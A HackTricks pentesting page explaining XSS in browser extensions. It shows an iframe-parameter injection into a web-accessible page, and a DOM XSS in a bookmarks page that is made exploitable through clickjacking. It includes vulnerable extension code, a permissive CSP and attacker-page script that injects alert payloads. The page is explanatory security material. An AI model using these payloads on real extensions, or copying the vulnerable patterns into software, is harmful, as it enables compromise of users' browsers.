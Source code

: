 # BrowExt - XSS Example

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## XSS on Iframe

**Content script** creates an Iframe indicating an **URL in the parameters of the iFrame source**:

```javascript
chrome.storage.local.get("message", result =>
{
  frame.src = chrome.runtime.getURL("message.html") +
    "?message=" + encodeURIComponent(result.message) +
    "&url=https://example.net/explanation";
});
```

A exposed html page: **`message.html`**, accesible from the **browser**, contains a code such as:

```java
$(() =>
{
  let params = new URLSearchParams(location.search);
  $(document.body).append(params.get("message") + " <button>Explain</button>");
  $("body > button").click(() =>
  {
    chrome.tabs.create({ url: params.get("url") });
  });
});
```

The malicious page execute a script like the following to change the message for a **XSS payload**:

```javascript
setTimeout(() =>
{
  let frame = document.querySelector("iframe:last-child");
  let src = frame.src;

  // Remove existing query parameters
  src = src.replace(/\?.*/, "");

  // Add malicious query parameters
  src += "?message=" + encodeURIComponent("<script>alert('XSS')</script>");

  // Load into frame
  frame.src = src;
}, 1000);
```

A permissive Content Security Policy like&#x20;

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

will allow the execution of the JS code.

Another way to trigger the XSS at will is running:

```javascript
let frame = document.createElement("iframe");
frame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?message="
  + encodeURIComponent("<script>alert('XSS')</script>");
document.body.appendChild(frame);
```

## DOM-based XSS + ClickJacking

The first vulnerability is the DOM-based Cross-site Scripting (XSS) vulnerability in **`/html/bookmarks.html`**, the following is the vulnerable JavaScript from the included **`bookmarks.js`**:

```javascript
$('#btAdd').click(function() {
    var btname = $('#txtName').val();
    if ($('.custom-button .name').filter(function() {
        return $(this).text() === btname;
    }).length) return false;

    var span = $('<span class="custom-button">');
    span.html('<span class="name">' + btname + '</span>');
    span.append('<a href="javascript:void(0)" title="remove">x</a>');
    span.attr('title', btname);
    span.data('id', (new Date().getTime()));
    $('div.custom-buttons .existing').append(span);
    save_options();
});
```

The above JavaScript takes the **value** of the **`txtName`** text box and uses **string concatenation to build HTML** which is appended to the DOM via jQuery’s [“append()”](https://api.jquery.com/append/) function.

Normally, Chrome extension Content Security Policy (CSP) should prevent this vulnerability from being exploited. However, due to the **loosening of this policy via** [**‘unsafe-eval’**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) and the use of jQuery’s DOM APIs, this was still able to be **exploited**. This is due to much of jQuery’s DOM APIs making use of [“globalEval()”](https://api.jquery.com/jquery.globaleval/), which automatically passes scripts to [“eval()”](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/eval) upon appending to the DOM.

While this is a serious vulnerability, on its own exploitation is fairly limited due to the **user-interaction required to exploit it**. The victim would have to open the page, paste a Cross-site Scripting (XSS) payload into the field, and click the “Add” button to exploit it.

In order to better weaponize this vulnerability we make use of a separate vulnerability (**clickjacking**) in order to bolster the attack.

The following is an excerpt from the Chrome extension’s manifest:

```json
...trimmed for brevity...
"web_accessible_resources": [
    "_locales/*",
    "bundle/*",
    "dist/*",
    "assets/*",
    "font/*",
    "html/bookmarks.html",
    "css/*.css",
    "js/*.js",
    "js/jquery/*.js",
    "js/lang/*"
],
...trimmed for brevity...
```

The above section demonstrates that the extension casts a wide net with its **`web_accessible_resources`** policy.&#x20;

The **`/html/bookmarks.html`** page is also able to be **framed** and thus **exploited** via **clickjacking**. We abuse this to iframe this page in our web page, and **overlay the frame with DOM elements to redress the layout**. This makes it so that the victim is unaware that they are **actually interacting with the extension below**. The following animation demonstrates this effect (check the animation in the [**original post writeup**](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)).

## References

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
